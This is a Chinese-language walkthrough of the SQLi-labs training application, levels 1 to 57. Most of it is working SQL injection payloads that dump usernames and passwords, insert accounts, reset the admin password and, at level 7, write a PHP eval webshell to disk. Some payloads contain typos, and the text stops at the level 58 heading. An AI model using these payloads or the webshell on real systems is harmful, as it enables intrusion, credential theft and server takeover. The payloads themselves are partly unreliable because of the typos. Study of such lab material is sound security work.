# 1.第一关('单引号注释)
```plain
?id=1
?id=999999               //id数过大，页面正常不存在
?id=1'                   //页面数据库异常
?id=1'-- -               //页面恢复正常
?id=1'order by 1 -- -
?id=1'order by 2 -- -
?id=1'order by 3 -- -     //页面正常
?id=1'order by 4 -- -     //以第四列进行排序，页面数据库异常
?id=-1'union select 1,database() ,3 -- - 爆库
?id=-1'union select 1,group_concat(table_name) ,3 from information_schema.tables where table_schema=database()-- - 爆表
?id=-1'union select 1,group_concat(column_name) ,3 from information_schema.columns where table_name='users' and table_schema=database()-- - 爆字段
?id=-1'union select 1,group_concat(id,username,password) ,3 from security.users -- - 爆字段
```

# 2.第二关(<font style="color:rgb(36, 41, 46);">数字型注入，无闭合符</font>)
和第一关是一样进行判断当我们输入单引号或者双引号可以看到报错且报错信息看不到数字所有我们可以猜测sql语句应该是数字型注入。那步骤和我们第一关是差不多的

```plain
?id=1                      //页面正常
?id=1 '                    //页面数据库异常
?id=1 "                    //页面数据库异常
?id=1 )                    //页面数据库异常
?id=1 (                    //页面数据库异常
?id=1 ')                    //页面数据库异常
?id=1 ''                    //多加了一个'，理论上应该正常，但是还是异常，所以数字型
http://127.0.0.1/sqli/Less-2/?id=-1 union select 1,2,3-- -


```

# 3.第三关<font style="color:rgb(36, 41, 46);">（‘)绕过）</font>
当我们在输入?id=2'的时候看到页面报错信息。可推断sql语句是单引号字符型且有括号所以我们需要闭合单引号且也要考虑括号。



通过下面代码构建就可以进行sql注入。后面所有代码以此为基础进行构造。

```plain
?id=2')--+

?id=1') order by 3--+
?id=-1') union select 1,2,3--+
?id=-1') union select 1,database(),version()--+
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1') union select 1,2,group_concat(username ,id , password) from users--+
```

# 
# 4.<font style="color:rgb(36, 41, 46);">第四关（")绕过）</font>
根据页面报错信息得知sql语句是双引号字符型且有括号通过以下代码进行sql注入

```plain
?id=1") order by 3--+
?id=-1") union select 1,2,3--+
?id=-1") union select 1,database(),version()--+
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1") union select 1,2,group_concat(username ,id , password) from users--+
```

# 5.<font style="color:rgb(36, 41, 46);">第五关(二次查询'单引号floor报错注入最长64字符)</font>
```plain
count()：汇总数据函数

rand()：随机输出一个小于1的正数

floor()：把输出的结果取整

group by语句：把结果分组输出

concat()：连接两条语句
information_schema.tables group by x)a)语句的构建

?id=2' and (select 1 from (select count(),concat(((select concat(database(),';'))),floor (rand(0)2))x from information_schema.tables group by x)a) -- - 当前数据库

?id=2' and (select 1 from (select count(),concat(((select concat(table_name,';') from information_schema.tables where table_schema='security' limit 0,1)),floor (rand(0)2))x from information_schema.tables group by x)a) -- -当前数据库的表

?id=2' and (select 1 from (select count(),concat(((select concat(column_name,';') from information_schema.columns where table_name='users' limit 5,1)),floor (rand(0)2))x from information_schema.tables group by x)a) -- - 爆列名

15-17

?id=2' and (select 1 from (select count(),concat(((select concat(password,';') from users limit 0,1)),floor (rand(0)2))x from information_schema.tables group by x)a) -- -爆内容
```

# 6.第六关<font style="color:rgb(36, 41, 46);">("双引号floor报错注入最长64字符)</font>
```plain
?id=2” and (select 1 from (select count(),concat(((select concat(database(),';'))),floor (rand(0)2))x from information_schema.tables group by x)a) -- - 当前数据库
```

# 7.<font style="color:rgb(36, 41, 46);">第七关('))out file存储)</font>
`<font style="color:rgb(36, 41, 46);">Less-7/?id=-1’)) and 1=2 union slect 1,"<?php @eval($_POST['cmd']);?>",3 into outfile ‘outcome.php’–- - </font>`<font style="color:rgb(36, 41, 46);">文件默认在@@datadir显示的数据库的当前库的根目录下</font>

`<font style="color:rgb(36, 41, 46);">?id=-1')) union select 1,"<?php @eval($_POST['cmd']);?>",3 into outfile "C:\\phpStudy\\PHPTutorial\\WWW\\123456.php" -- -</font>`<font style="color:rgb(36, 41, 46);"> 也可以自定义路径,这里转义了\,需要\\来表示\</font>

#### <font style="color:rgb(36, 41, 46);">相关知识</font>
##### <font style="color:rgb(36, 41, 46);">1.my.ini中 添加secure_file_priv=""</font>
<font style="color:rgb(36, 41, 46);">secure_file_prive=null ––限制mysqld 不允许导入导出</font>

<font style="color:rgb(36, 41, 46);">secure_file_priv=/path/ – --限制mysqld的导入导出只能发生在默认的/path/目录下</font>

<font style="color:rgb(36, 41, 46);">secure_file_priv="" – --不对mysqld 的导入 导出做限制</font>

##### <font style="color:rgb(36, 41, 46);">2.因为第七关没有回显，所有利用第一关查看路径，和secure_file_priv情况</font>
<font style="color:rgb(36, 41, 46);">/Less-1/?id=-1’ union select 1,@@datadir,@@secure_file_priv-- -</font>

<font style="color:rgb(36, 41, 46);">@@datadir函数查看</font>_<font style="color:rgb(36, 41, 46);">MySql存放数据文件的目录</font>_<font style="color:rgb(36, 41, 46);">也就是，mysql的data目录路径</font>

<font style="color:rgb(36, 41, 46);">@@secure_file_priv函数查看权限</font>

###### **<font style="color:rgb(106, 115, 125);">3.into outfile函数使用的前提是，已知一个拥有写入和执行权限的目录文件夹</font>**
###### **<font style="color:rgb(106, 115, 125);">4.into outfile 将查询结果写入文件里</font>**
<font style="color:rgb(36, 41, 46);">5.MySQL中的basedir和datadir的作用</font>

[(16条消息) MySQL中的basedir和datadir的作用wolfalcon的专栏-CSDN博客basedir](https://blog.csdn.net/wolfalcon/article/details/80528678)

# 8.第八关(<font style="color:rgb(36, 41, 46);">单引号字符型注入，也可以布尔和时间盲注</font>)
`<font style="color:rgb(36, 41, 46);">id=1'and ascii(substring(database(),1,1))=115--+</font>`

# 9.第九关<font style="color:rgb(36, 41, 46);">（'单引号睡眠注入）</font>
<font style="color:rgb(36, 41, 46);">尝试了下各种姿势发现都是一个回显，我们可以用睡眠注入</font>

`<font style="color:rgb(36, 41, 46);">?id=1' and If(ascii(substr(database(),1,1))=115,1,sleep(5))-- -</font>`

<font style="color:rgb(36, 41, 46);">(编码(截取(当前数据库),从第一个字母开始,截取一个 ))如果成立立即显示，否则睡眠(转)5秒显示</font>

`<font style="color:rgb(36, 41, 46);">sleep(if(length(database())=8,0,5))-- -</font>`<font style="color:rgb(36, 41, 46);"> 如果数据库长度=8，不睡，否则睡5秒。</font>

`<font style="color:rgb(36, 41, 46);">if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='a',sleep(5),1) -- -</font>`<font style="color:rgb(36, 41, 46);"> a为尝试的数字，爆表名</font>

`<font style="color:rgb(36, 41, 46);">?id=-1' union select 1,2,group_concat(concat_ws("-",username,password)) from users-- -</font>`

### <font style="color:rgb(36, 41, 46);">相关知识</font>
+ <font style="color:rgb(36, 41, 46);">concat_ws("指定分隔符，默认空格"，连接的字段)</font>
+ <font style="color:rgb(36, 41, 46);">substr(被截取对象，从第几个开始，截取几个)</font>
+ <font style="color:rgb(36, 41, 46);">ascii表（</font>[ASCII编码对照表_911查询 (911cha.com)](http://ascii.911cha.com/)<font style="color:rgb(36, 41, 46);">）</font>

```plain
?id=1' and if(1=1,sleep(5),1)--+
判断参数构造。

?id=1'and if(length((select database()))>9,sleep(5),1)--+
判断数据库名长度

?id=1'and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
逐一判断数据库字符

?id=1'and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
判断所有表名长度

?id=1'and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
逐一判断表名

?id=1'and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+
判断所有字段名的长度

?id=1'and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
逐一判断字段名。


?id=1' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+
判断字段内容长度


?id=1' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+
逐一检测内容。
```

# 10.<font style="color:rgb(36, 41, 46);">第十关("双引号睡眠注入)</font>
第十关和第九关一样只需要将单引号换成双引号。

# 11.<font style="color:rgb(36, 41, 46);">第十一关(post'注入)</font>
从第十一关开始可以发现页面就发生变化了是账户登录页面。那么注入点就在输入框里面。前十关使用的是get请求参数都体现在url上面而从十一关开始是post请求参数是在表单里面。我们可以直接在输入框进行注入就行。并且参数不在是一个还是两个。根据前面的认识我们可以猜测sql语句。大概的形式应该是这样username=参数 and password=参数 只是不知道是字符型还是整数型。

当我们输入1时出现错误图片



当我们输入1',出现报错信息。根据报错信息可以推断该sql语句username='参数' and password='参数'





知道sql语句我们可以构造一个恒成立的sql语句看的查询出什么。这里我们使用--+注释就不行需要换成#来注释 这个就和我们第一关是一样了。使用联合注入就可以获取数据库信息。





# 12.<font style="color:rgb(36, 41, 46);">第十二关(POST ")注入)</font>
当我们输入1'和1时候页面没有反应



当我们输入1"的时候页面出现报错信息就可以知道sql语句是双引号且有括号。





那么我们可以构造下面语句进行sql注入。

```plain
1" ) or 1=1 #判断是否存在sql注入。
1" ) union select 1,2#
```



# 13.<font style="color:rgb(36, 41, 46);">第十三关(post')报错注入)</font>
十三关和十二关差不多只需要将双引号换成单引号。

# 14.<font style="color:rgb(36, 41, 46);">第十四关(基于"的post"报错注入)</font>
十四关和十一关差不多只需要将单引号换成双引号。

# 15.<font style="color:rgb(36, 41, 46);">第十五关（基于‘的post‘布尔盲注）(dns注入)</font>
第十五关和第十一关一样只是不产生报错信息。这就是明显的布尔盲注。因为还有错误页面和正确页面进行参考。

# 16.<font style="color:rgb(36, 41, 46);">第十六关(基于'的post")睡眠盲注)(dns注入)</font>
第十六关和十二关一样需要布尔盲注。



# 17.<font style="color:rgb(36, 41, 46);">第十七关（基于'的密码报错注入）</font>
第十七关和前面的关有很大不一样根据页面展示是一个密码重置页面也就是说我们已经登录系统了然后查看我们源码是根据我们提供的账户名去数据库查看用户名和密码如果账户名正确那么将密码改成你输入的密码。再执行这条sql语句之前会对输入的账户名进行检查对输入的特殊字符转义。所以我们能够利用的只有更新密码的sql语句。sql语句之前都是查询这里有一个update更新数据库里面信息。所以之前的联合注入和布尔盲注以及时间盲注都不能用了。这里我们会用到报错注入。用到三种mysql报错注入下面都给大家详细写出步骤,大家可以借鉴。





这里介绍的报错注入可以选择extractvalue()报错注入updatexml()报错注入和group by()报错注入。下面简单说一下者三种报错注入的原理。

**extractvalue报错注入**

extractvalue(XML_document,XPath_string)

第一个参数XML_document是String格式为XML文档对象的名称文中为Doc

第二个参数XPath_string (Xpath格式的字符串) 如果不了解Xpath语法可以在网上查找教程。

作用从XML_document中提取符合XPATH_string的值当我们XPath_string语法报错时候就会报错下面的语法就是错误的。concat和我前面说的的group_concat作用一样



**下面已将该报错注入代码给到大家在最后一步爆字段内容时候会报错原因是mysql数据不支持查询和更新是同一张表。所以我们需要加一个中间表。这个关卡需要输入正确账号因为是密码重置页面所以爆出的是该账户的原始密码。如果查询时不是users表就不会报错。**

```plain
1' and (extractvalue(1,concat(0x5c,version(),0x5c)))#    爆版本

1' and (extractvalue(1,concat(0x5c,database(),0x5c)))#   爆数据库

1' and (extractvalue(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5c)))#   爆表名

1' and (extractvalue(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x5c)))# 
 爆字段名

1' and (extractvalue(1,concat(0x5c,(select password from (select password from users where username='admin1') b) ,0x5c)))#      爆字段内容该格式针对mysql数据库。


1' and (extractvalue(1,concat(0x5c,(select group_concat(username,password) from users),0x5c)))#                      爆字段内容。
```

**updatexml报错注入**

UPDATEXML (XML_document, XPath_string, new_value)

第一个参数XML_document是String格式为XML文档对象的名称文中为Doc

第二个参数XPath_string (Xpath格式的字符串) 如果不了解Xpath语法可以在网上查找教程。

第三个参数new_valueString格式替换查找到的符合条件的数据

作用改变文档中符合条件的节点的值改变XML_document中符合XPATH_string的值

当我们XPath_string语法报错时候就会报错updatexml()报错注入和extractvalue()报错注入基本差不多。

**下面已将该报错注入代码给到大家最后爆字段和上面一样如果加一个中间表。**

```plain
123' and (updatexml(1,concat(0x5c,version(),0x5c),1))#     爆版本
123' and (updatexml(1,concat(0x5c,database(),0x5c),1))#    爆数据库


123' and (updatexml(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5c),1))#      爆表名


123' and (updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='users'),0x5c),1))#
   爆字段名

123' and (updatexml(1,concat(0x5c,(select password from (select password from users where username='admin1') b),0x5c),1))#
爆密码该格式针对mysql数据库。


爆其他表就可以下面是爆emails表
123' and (updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='emails'),0x5c),1))#

1' and (updatexml (1,concat(0x5c,(select group_concat(id,email_id) from emails),0x5c),1))#   爆字段内容。
```

**group by报错注入**

group by 报错可以看这个文章此文章博主写的很清楚。这个报错注入比前面两个复杂一点。

[深入理解group by报错注入_m0_53065491的博客-CSDN博客](https://blog.csdn.net/m0_53065491/article/details/121893986)

```plain
123' and (select count(*) from information_schema.tables group by concat(database(),0x5c,floor(rand(0)*2)))#     爆数据库

123' and (select count(*) from information_schema.tables group by concat(version(),0x5c,floor(rand(0)*2)))#      爆数据库版本


1' and (select count(*) from information_schema.tables where table_schema=database() group by concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x7e,floor(rand(0)*2)))#    通过修改limit后面数字一个一个爆表


1' and (select count(*) from information_schema.tables where table_schema=database() group by concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e,floor(rand(0)*2)))#        爆出所有表


1' and (select count(*) from information_schema.columns where table_schema=database() group by concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e,floor(rand(0)*2)))#    爆出所有字段名


1' and (select count(*) from information_schema.columns group by concat(0x7e,(select group_concat(username,password) from users),0x7e,floor(rand(0)*2)))#    爆出所有字段名

1' and (select 1 from(select count(*) from information_schema.columns where table_schema=database() group by concat(0x7e,(select password from users where username='admin1'),0x7e,floor(rand(0)*2)))a)#    爆出该账户的密码。
```

# 18.<font style="color:rgb(36, 41, 46);">第十八关(基于'的post'User-Agent头注入)adminadmin登录</font>
这关我们直接看到看到页面有一个ip,我们 可以简单看一下源码发现对于输入的账户名和密码都有进行检查但是往下看会发现一个插入的sql语句当我们输入争取的账户名和密码我们的User-Agent字段内容就会出现在页面上。所以可以从这上面下功夫



当我们在User-Agent后面加上单引号出现如下报错可见插入语句是将ua字段内容和ip地址以及账户名作为字符串进行插入且外面有括号。还要注意该插入语句需要三个参数所以我们在构造时候也需要有三个参数。因为#号后面都被注释了。





所以我们可以构造如下数据页面显示正常。可以将其他参数换成sql语句进行报错注入









大家可以自己报错注入方式进行注入updatexml和extractvalue报错注入爆出来的数据长度是有限的。

```plain
1' ,2, (extractvalue(1,concat(0x5c,(select group_concat(password,username) from users),0x5c)))#   爆账户密码。

1',2,updatexml (1,concat(0x5c,(select group_concat(username,password) from users),0x5c),1))#   爆账户密码。
```





# 19.<font style="color:rgb(36, 41, 46);">第十九关(基于'的post'Referer头注入)adminadmin登录</font>
十九关当我们输入正确的账户密码我们的referer字段内容会显示在页面上。该插入的sql语句有两个参数一个是referfer,还有ip地址。下面代码可以报错账户密码。前面的大家自己构造了。

```plain
1',updatexml (1,concat(0x5c,(select group_concat(username,password) from users),0x5c),1))#
```

# 20.<font style="color:rgb(36, 41, 46);">第二十关(基于'的post'cookie头报错注入)adminadmin登录</font>
第二十关当我们输入正确页面时候cookie字段显示在页面上进行抓包。进行注入

```plain
'and updatexml (1,concat(0x5c,(select group_concat(username,password) from users),0x5c),1)#
```





# 21.<font style="color:rgb(36, 41, 46);">第二十一关(基于’)字符型的post'cookie头base64加密注入)adminadmin</font>
第二十一关和二十关很像唯一不一样就是cookie哪里不是账户名而是一串字符。有点经验就知道是base64编码所以我们可以将单引号进行编码jw==可以发现报错并且还得有括号。





将注入代码进行编码可以看到爆出账户密码。

```plain
')and updatexml (1,concat(0x5c,(select group_concat(username,password) from users),0x5c),1)#
```







```plain
Cookie: uname=YWRtaW4nb3IgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsKGRhdGFiYXNlKCkpLDB4N2UpLDEpIG9yICcx报错注入姿势过
```

# 22.<font style="color:rgb(36, 41, 46);">第二十二关(基于"的cookie编码base64注入)</font>
第二十二关和第二十一关一样只不过cookie是双引号base64编码没有括号。

```plain
uname=" union select 1,2,3# ;

Cookie: uname=IiB1bmlvbiBzZWxlY3QgMSwyLDMjIDs=
```

# 23.第二十三关<font style="color:rgb(36, 41, 46);">(过滤注释的GET型注入)</font>
第二十三关重新回到get请求会发现输入单引号报错但是注释符不管用。猜测注释符被过滤看来源码果然被注释了所以我们可以用单引号闭合发现成功。之后可以使用联合注入。不过在判断列数时候不能使用order by 去判断需要用?id=-1' union select 1,2,3,4 or '1'='1通过不停加数字判断最后根据页面显示是三列且显示位是2号。

```plain
?id=1' or '1'='1

这样sql语句就变成 id='1' or '1'='1'


?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 or '1'='1


?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' ),3 or '1'='1


?id=-1' union select 1,(select group_concat(password,username) from users),3 or '1'='1
```



# 24.第二十四关<font style="color:rgb(36, 41, 46);">(二次注入)</font>
第二十四关有一个登录页面和注册页面还要一个修改密码页面该关卡使用得是二次注入因为登录页面和注册页面对于密码和账户名都使用mysql_real_escape_string函数对于特殊字符进行转义。这里我们利用的是注册页面因为虽然存在函数对特殊字符进行转义但只是在调用sql语句时候进行转义当注册成功后账户密码存在到数据库的时候是没有转义的以原本数据存入数据库的。当我们修改密码的时候对于账户名是没有进行过滤的。





首先我们看到管理员账户admin密码是1,但是通常情况下我们是不知道密码的只能猜测管理员账户的admin。我们先注册一个账号名叫admin'#。



我们先注册一个账号名叫admin'#。可以看到我们成功将有污染的数据写入数据库。单引号是为了和之后密码修的用户名的单引号进行闭合#是为了注释后面的数据。



之后也用户名admin'#和密码是123456登录进入修改密码页面。原始密码输入123456新密码我输入的是111111可以看到密码修改成功。







当我们数据库查看的时候发现修改的是管理员的密码。而不是我们的注册账户的密码。



# 25.第二十五关<font style="color:rgb(36, 41, 46);">(过滤or和and的单引号注入)</font>
第二十五关根据提示是将or和and这两个替换成空但是只替换一次。大小写绕过没有用。我们可以采用双写绕过。本次关卡使用联合注入就可以了information里面涉及or可以写成infoorrmation。

```plain
?id=-2' union select 1,2,group_concat(table_name) from infoorrmation_schema.tables where table_schema='security'--+
```



# 26.第二十六关<font style="color:rgb(36, 41, 46);">(基于’过滤注释和空格的注入)</font>
第二十六关将逻辑运算符注释符以及空格给过滤了我们需要使用单引号进行闭合双写绕过逻辑运算符或者使用&&和||替换。空格绕过网上找了些资料对于绕过空格限制有大把的方式对于空格有较多的方法%09 TAB键水平、%0a 新建一行、%0c 新的一页、%0d return功能、%0b TAB键垂直、%a0 空格我在windows和kali里面都用不了可能是因为apache解析不了。只能使用()绕过。报错注入空格使用比较少所以我们可以使用报错注入。

```plain
?id=1'||(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),1))||'0   爆表


?id=1'||(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security'aandnd(table_name='users')))),1))||'0     爆字段


?id=1'||(updatexml(1,concat(0x7e,(select(group_concat(passwoorrd,username))from(users))),1))||'0   爆密码账户
```



# 26-a.第二十六-a关
该关卡和二十六关差不多多了一个括号。不能使用报错注入该页面不显示报错信息。需要使用联合注入和盲注。

# 27.第二十七关<font style="color:rgb(36, 41, 46);">(基于’过滤union、select与注释和空格的注入)</font>
二十七关和二十六差不多不过二十七关没有过滤and和or,过滤了select和union,我们可以大小写绕过以及重写绕过。



```plain
?id=1'or(updatexml(1,concat(0x7e,(selselecselecttect(group_concat(table_name))from(information_schema.tables)where(table_schema='security'))),1))or'0  爆表

?id=1'or(updatexml(1,concat(0x7e,(selselecselecttect(group_concat(column_name))from(information_schema.columns)where(table_schema='security'and(table_name='users')))),1))or'0  爆字段


?id=1'or(updatexml(1,concat(0x7e,(selselecselecttect(group_concat(password,username))from(users))),1))or'0  爆密码账户
```

# 27-a.第二十七-a关
该关是双引号且页面不显示报错信息。过滤规则和二十七关一样。所以我们需要使用盲注和联合注入。

```plain
?id=0"uniunionon%0AseleSelectct%0A1,2,group_concat(column_name)from%0Ainformation_schema.columns%0Awhere%0Atable_schema='security'%0Aand%0Atable_name='users'%0Aand"1


###?id=0"uniunionon%0AseleSelectct%0A1,2,group_concat(password,username)from%0Ausers%0Aand"1


?id=0"uniunionon%0AseleSelectct%0A1,2,group_concat(password,id,username)from%0Ausers%0Awhere%0Aid=3%0Aand"1
```

# 28.第二十八关<font style="color:rgb(36, 41, 46);">(基于’)过滤union和select等的盲注)</font>
该关卡过滤了注释符空格还过滤了union和select。\s表示空格+表示匹配一次或多次/i表示不区分大小写所以整体表示匹配 union加一个或多个空格加select其中union和select不区分大小。所以我们可以使用重写绕过写。



```plain
?id=0')uni union%0Aselecton%0Aselect%0A1,2,group_concat(table_name)from%0Ainformation_schema.tables%0Awhere%0Atable_schema='security'and ('1

?id=0')uni union%0Aselecton%0Aselect%0A1,2,group_concat(column_name)from%0Ainformation_schema.columns%0Awhere%0Atable_schema='security'%0Aand%0Atable_name='users'%0Aand('1


?id=0')uni union%0Aselecton%0Aselect%0A1,2,group_concat(password,username)from%0Ausers%0Aand%0A('1
```

# 28-a.第二十八-A关
该关卡只过滤union+select。其他没有过滤。

```plain
?id=0')uniunion selecton select 1,2,group_concat(column_name)from information_schema.columns where table_schema='security' and table_name='users'--+
```

# 29.第二十九关<font style="color:rgb(36, 41, 46);">(index.php——基于单引号字符型的注入)</font>
二十九关就是会对输入的参数进行校验是否为数字但是在对参数值进行校验之前的提取时候只提取了第一个id值如果我们有两个id参数第一个id参数正常数字第二个id参数进行sql注入。sql语句在接受相同参数时候接受的是后面的参数值。




```plain
?id=1&id=-2%27%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()--+     爆表

?id=1&id=-2%27%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_schema=database() and table_name='users'--+   爆字段

?id=1&id=-2%27%20union%20select%201,group_concat(password,username),3%20from%20users--+
爆密码账户
```

# 30.第三十关<font style="color:rgb(36, 41, 46);">(index.php——基于双引号字符型的注入)</font>
三十关和二十九关差不多将单引号换成双引号



```plain
?id=1&id=-2"%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()--+     爆表

?id=1&id=-2"%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_schema=database() and table_name='users'--+   爆字段

?id=1&id=-2"%20union%20select%201,group_concat(password,username),3%20from%20users--+
```

# 31.第三十一关
三十一关和三十关差不多多了一个括号



```plain
?id=1&id=-2")%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()--+     爆表

?id=1&id=-2")%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_schema=database() and table_name='users'--+   爆字段

?id=1&id=-2")%20union%20select%201,group_concat(password,username),3%20from%20users--+
```

# 32.第三十二关
第三十二关使用preg_replace函数将 斜杠单引号和双引号过滤了如果输入id=1"会变成id=1\",使得引号不起作用但是可以注意到数据库使用了gbk编码。这里我们可以采用宽字节注入。当某字符的大小为一个字节时称其字符为窄字节当某字符的大小为两个字节时称其字符为宽字节。所有英文默认占一个字节汉字占两个字节。

# 
```plain
?id=-1%df%27%20union%20select%201,database(),3%20--+

?id=-1%df%27%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()--+     爆表

?id=-1%df%27%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_schema=database() and table_name=0x7573657273--+   爆字段

?id=-1%df%27%20union%20select%201,group_concat(password,username),3%20from%20users--+
```

# 33.第三十三关
第三十二关和三十三关一模一样

# 34.第三十四关
三十四关是post提交使用addslashes函数对于账户和密码都进行转义使用宽字节注入就行。

```plain
1%df' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273--+  爆字段名


1%df%27 union select 1,group_concat(password,username) from users--+ 爆密码账户
```

# 35.第三十五关
使用addslashes函数对于输入的内容进行转义但是id参数没有引号主要影响在与后续爆字段时候需要用的表名加了引号只需将表名换成十六进制编码就行直接使用联合查询就可以了

```plain
?id=-1%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()--+     爆表

?id=-1%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_schema=database() and table_name=0x7573657273--+   爆字段

?id=-1%20union%20select%201,group_concat(password,username),3%20from%20users--+
```

# 36.第三十六关
使用mysql_real_escape_string函数对于特殊字符进行转义。id参数是单引号和前面三十二关一样

# 37.第三十七关
三十七关是post提交使用mysql_real_escape_string函数对于账户和密码都进行转义使用宽字节注入就行。和三十四关一样。

```plain
1%df' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273--+  爆字段名


1%df' union select 1,group_concat(password,username) from users--+ 爆密码账户
```


# 38.第三十八关
三十八关其实就是单引号闭合使用正常单引号闭合就可以进行注入不过这里可以有另外一种注入就是堆叠注入因为存在mysqli_multi_query函数该函数支持多条sql语句同时进行。

```plain
?id=1';insert into users(id,username,password) values ('38','less38','hello')--+
#向数据表插入自己的账户密码
```


```plain
?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())b--+  查询字段

?id=-1' union select 1,2,(select group_concat(username,password) from users)b--+   查询密码账户
```


# 39.第三十九关
id参数是整数正常联合注入就行。

```plain
?id=-1%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()


?id=-1%20union%20select%201,group_concat(username,password),3%20from%20users
```

# 40.第四十关
四十关id参数是单引号加括号闭合然后使用联合注入就可以了

```plain
?id=-1%27)%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()--+

?id=-1%27)%20union%20select%201,group_concat(username,password),3%20from%20users%20--+
```

# 41.第四十一关
四十一关和三十九关一样id是整数。

# 42.第四十二关
四十二关是因为账户进行了转义处理密码没有做处理数据库没有使用gbk编码不能向上面一样使用宽字节注入但是存在堆叠注入函数所以我们可以在密码哪里使用堆叠注入。向数据库里面插入密码账号这样我们再来使用其进行登录就很简单了。


```plain
login_user=1&login_password=1';insert into users(id,username,password) values ('39','less30','123456')--+&mysubmit=Login
```

# 43.第四十三关
四十三关和四十二关差不多就是密码参数是单引号和括号闭合的。


```plain
login_user=1&login_password=1'); insert into users(id,username,password) values ('44','less34','123456')--+&mysubmit=Login
```

# 44.第四十四关
四十四关和四十二关一样


# 45.第四十五关
四十五关和四十三关一样


# 46.第四十六关
使用新的参数sort通过输入123表中出现不同数据该sql语句是order bysql语句参数没有引号且不能使用联合注入有报错显示所以我们可以使用updatexml进行报错。


```plain
?sort=1%20and%20(updatexml(1,concat(0x5c,(select%20group_concat(password,username)%20from%20users),0x5c),1))
```

# 47.第四十七关
四十七关和四十六差不多多了一个单引号闭合可以使用报错注入


# 48.第四十八关
四十八关和四十六一样只不过没有报错显示所以使用延时注入。


# 49.第四十九关
四十九关和四十七关一样不过没有报错显示所以使用延时注入。


# 50.第五十关
五十关和四十六关一样可以使用updatexml进行报错注入不过这个里面还可以使用堆叠注入因为使用了mysqli_multi_query函数支持多条sql语句执行。也可以延时注入。可以借鉴三十八代码


# 51.第五十一关
该参数单引号闭合可以报错注入可以延时注入可以堆叠注入。

# 
# 52.第五十二关
该参数是整数型且没有报错显示只能堆叠注入或者延时注入。


# 53.第五十三关
该参数是字符型单引号闭合没有报错显示可以使用堆叠注入和延时注入。


# 54.第五十四关
五十四关翻译页面的英文得知只有十次输入机会超过十次所有表名列名等等都会随机重置。id参数是单引号闭合就行。


```plain
?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+ 爆表名
```


注意上面这个是我查到的表名每个人不一样的表名代码需要更改表名

```plain
?id=-1'union select 1,group_concat(column_name),3 from information_schema.columns where%20table_schema=database() and table_name='8fof1zun81'--+  爆列名
```

字段名也是不一样的我们需要获取secret_31F4所以每个人的列名也需要改。 

```plain
?id=-1%27union%20select%201,group_concat(secret_31F4),3%20from%208fof1zun81--+  获取key值
```

将获取的key值放到下面输入框点击提交就完成所有步骤。

# 55.第五十五关
五十五关是有14次机会id参数是加了括号的整数


```plain
?id=-1)%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()--+   报表名


?id=-1) union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='69jwmv27j9'--+ 爆列名


?id=-1) union select 1,group_concat(secret_D1DW),3 from 69jwmv27j9--+  获取key值
```


# 56.第五十六关
五十六关和前面两关类似需要单引号和括号。


```plain
?id=-1')%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()--+  爆表名

?id=-1') union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='9ze4qmv307'--+ 爆列名


?id=-1') union select 1,group_concat(secret_CTVR),3 from 9ze4qmv307--+  获取key值
```

# 57.第五十七关
五十七关就是双引号闭合 

# 58.第五十八关
